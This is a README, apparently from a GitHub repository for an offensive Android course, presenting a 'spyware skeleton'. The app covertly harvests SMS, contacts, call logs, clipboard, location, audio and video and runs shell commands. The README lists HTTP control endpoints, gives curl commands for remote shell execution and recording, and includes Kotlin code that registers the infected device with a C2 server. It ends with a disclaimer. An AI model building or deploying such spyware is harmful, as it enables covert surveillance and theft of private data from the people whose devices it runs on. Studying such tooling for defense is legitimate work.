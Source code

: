 # 🕵️‍♂️ Spyware Skeleton – Android Offensive Framework
This repository is part of the *Offensive Android Programming* course by Mobile Hacking Lab (MHL).

It provides a modular and extensible structure with basic offensive capabilities, intended for educational use and security research in controlled environments.

## 💼 Features
- 📞 Retrieve Call Logs  
- 📇 Access Contacts  
- 📋 Extract Clipboard Data  
- 💬 Read SMS  
- 🎙️ Audio Recording  
- 📹 Video Recording  
- 📍 Get Location Data  
- 🧪 Execute Shell Commands  
- 🌐 Embedded HTTP Server (NanoHTTPD)

## 🌐 Local Web Server
A built-in `NanoHTTPD` server runs on port `1234` inside the `MyForegroundService`. This allows **remote data exfiltration and control via HTTP**.

### Endpoints:
| Method | Path | Description |
|--------|------|-------------|
| `GET` | `/?command=GET_CONTACTS` | Dump all contacts |
| `GET` | `/?command=GET_CALL_LOGS` | Dump call history |
| `GET` | `/?command=GET_SMS` | Retrieve all SMS |
| `GET` | `/?command=GET_CLIPBOARD` | Get current clipboard |
| `GET` | `/?command=GET_LOCATION` | Get last known location |
| `POST` | `/?command=EXECUTE` | Execute shell command |
| `POST` | `/?command=AUDIO_RECORD` | Start audio recording |
| `GET` | `/?command=AUDIO_STOP` | Stop and download last audio |
| `POST` | `/?command=VIDEO_START` | Start video recording |
| `GET` | `/?command=VIDEO_STOP` | Stop and download last video |

### 🐚 Shell Command Execution (Example):
```bash
curl -X POST \
  -H "Content-Type: application/json" \
  -d '{"cmd":"whoami"}' \
  http://<DEVICE_IP>:1234/?command=EXECUTE
```
### 🎙️ Start Audio Recording:
```bash
curl -X POST http://<DEVICE_IP>:1234/?command=AUDIO_RECORD
```
### 🎙️ Stop and Download Audio:
```bash
curl -X GET http://<DEVICE_IP>:1234/?command=AUDIO_STOP --output dump.3gp
```
### 📹 Start Video Recording (Front or Back):
```bash
curl -X POST \
  -H "Content-Type: application/json" \
  -d '{"cameraDirection":"front"}' \
  http://<DEVICE_IP>:1234/?command=VIDEO_START
```
### 📹 Stop and Download Video:
```bash
curl -X GET http://<DEVICE_IP>:1234/?command=VIDEO_STOP --output video.mp4
```

## CONFIGURATION
### ✅ Network Security
To allow HTTP communication on newer Android versions (API 28+), create the following file:
`res/xml/network_security_config.xml`
```XML
<?xml version="1.0" encoding="utf-8"?>
<network-security-config>
    <domain-config cleartextTrafficPermitted="true">
        <domain includeSubdomains="true">192.168.1.97</domain> <!-- 🔁 Replace with your C2 server IP -->
    </domain-config>
</network-security-config>
```
And reference it in your manifest:
```XML
<application
    android:networkSecurityConfig="@xml/network_security_config"
    ... >
```
### 🔁 Notify Your C2 Server
The app will periodically notify your remote server with its IP and port:
`Server.kt`
```Kotlin
private fun notifyFlaskServer() {
    val ip = getLocalIpAddress()
    val url = "http://192.168.1.97:4444/register" // 🔁 Change this
    val payload = JSONObject().apply {
        put("ip", ip)
        put("port", "1234")
    }
    ...
}
```
Update the IP and port to match your Flask or custom C2 server.

## 🧠 Structure
The code is organized under com.lautaro.spyware, with clean modules and retrievers:
- GetSms, ContactsRetriever, CallLogsRetriever, etc.
- ShellCommandExecutor, AudioRecorder, VideoRecord
- MyForegroundService + Server.kt (embedded HTTP server)

All designed for modularity, reusability and fast weaponization.

## 🚀 Usage
- Import the project into **Android Studio**
- Deploy to a test device (emulator or real)
- **Trigger any component manually or via HTTP**

This repository is meant to be a template/skeleton, not a standalone spyware app. Extend it freely.

## ⚠️ Disclaimer
**This project is intended strictly for educational and ethical hacking purposes**.
Do not deploy or use this code against any device or user without explicit consent.
**The authors are not responsible for any misuse**.
